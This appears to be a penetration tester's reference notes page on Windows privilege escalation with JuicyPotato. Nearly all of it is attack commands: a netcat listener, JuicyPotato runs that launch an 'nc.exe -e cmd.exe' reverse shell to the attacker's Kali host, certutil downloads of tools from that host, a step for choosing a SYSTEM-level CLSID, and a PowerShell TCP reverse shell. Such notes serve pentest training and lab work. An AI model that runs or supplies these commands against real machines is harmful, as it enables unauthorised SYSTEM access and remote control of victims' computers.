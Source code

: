 ```bash - kali
sudo rlwrap -cAr nc -lvnp 4444
```

```powershell - windows
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

```command prompt - windows
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c C:\Users\kohsuke\AppData\Local\Temp\tools\nc.exe -e cmd.exe $KALI 4444" -t *
```

#### Juicy Potato Manual
Transfer JuicyPotato.exe, test_clsid.bat and CLSID.list to the victim, in the same folder.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/JuicyPotato.exe && certutil -urlcache -split -f http://$KALI/test_clsid.bat && certutil -urlcache -split -f http://$KALI/CLSID.list
```

```command prompt - windows
.\test_clsid.bat
```

Open result.log

Select anyone CLSID from this list, make sure it had higher authority (NT AUTHORITY\SYSTEM)

[[1._Reverse Shells (WIN)#MSFVenom]]

Transfer reverse.exe to Victim.

![[4._File Transfers#Certutil]]


![[rlwrap]]

```command prompt - windows
JuicyPotato.exe -l 1337 -p reverse.exe -t * -c {687e55ca-6621–4c41-b9f1-c0eddc94bb05}
```


---


```bash - kali
cp Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Mousepad shell-2.ps1, include the following at the bottom:

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 444
```

---

```bash - kali
mousepad shell.bat
```
